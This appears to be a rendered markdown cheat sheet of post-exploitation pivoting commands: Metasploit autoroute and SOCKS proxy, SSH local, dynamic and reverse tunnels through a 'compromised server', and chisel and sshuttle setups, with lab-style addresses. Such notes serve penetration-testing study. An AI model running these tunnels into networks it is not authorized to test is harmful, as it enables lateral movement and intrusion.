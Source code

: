 # using metasploit

```shell
1) using autoroute
	# inside session meterpreter
	# set route
	- run autoroute -s 10.10.1.1 -n 10.10.1.255 
	- run autoroute -p # active routes
	
	# -> now you can scan all internal network by various modules 
	- use scanner/portscan/tcp # for portscan 
	- use post/windows/gather/arp_scanner # for arp scan or enumerating other devices 

2) using socks_proxy 
	# for outside intigration with tool
	- use auxiliary/server/socks_proxy
	- set srvport 9050
	- set version 4a
	- run -j
	# now you can use  proxychains nmap 10.10.4.2 

3) using portfwd
	# for port forward [inside meterpreter]
	- portfwd add -l 1234 -p 80 -r 10.10.4.2

```

---
# using ssh tunneling / port forwarding  
## 🔁 1) *Forward Connections*
  There are `two main` methods: 
  ### ➤ Port Forwarding
```shell
# Forward a local port to a target host's port via a compromised server
# Syntax: ssh -L [local_port]:[target_ip]:[target_port] [user]@[jump_host] -i [key_file] -fN
ssh -L 8080:10.200.85.150:80 root@10.200.85.200 -i id_rsa -fN  
```
### ➤ Proxy Creation
```shell
# Create a dynamic proxy (SOCKS proxy)
# Syntax: ssh -D [local_port] [user]@[jump_host] -i [key_file] -fN
ssh -D 1337 root@10.200.85.200 -i id_rsa -fN
```

## 🔄 2) *Reverse Connections*
- possible with the SSH client.
- preferable if you have a shell on the compromised server, but not SSH access)
``` shell
# initial steps

# ssh-keygen
# copy content of public key file and edit on .ssh/authorized_keys
# on first line add this
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty

- sudo systemctl status|start ssh

# Big No No - transfer private key to target host
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

```

---
# using other tools 
tools like chisel ; ptunnel ; proxytunnel ; sshuttle 
1) chisel
``` shell
1) remort port forwarding...
	# chisel server (attacker)
	- chisel server -p 1234 --reverse
	
	# chisel client (compromise server)
	- chisel client 10.50.86.21:1234 R:8888:10.200.85.150:80
	# R:8888:pivoted_internal_network_ip:80 

2) local port forwarding
	# chisel server (compromise machine)
	- chisel server -p 1234 
	
	# chisel client (attacker machine)
	- chisel client 10.200.85.200:1234 8888:10.200.85.150:80
```

2) sshuttle 
- simulate vpn ,  allowing us to route our traffic through the proxy    without the use of proxychains
``` shell
## basic use

# sshuttle -r username@address subnet
- sshuttle -r root@10.200.85.200 10.200.85.0/24 

## if password not abailable bypass with --ssh-cmd switch and use ssh keys
- sshuttle -r root@10.200.85.200 10.200.85.0/24 --ssh-cmd 'ssh -i 10.200.85.200/id_rsa'

### you can use -N for determine subnet automacally
### -x ip for exclude the compromised server from the subnet range
```

---
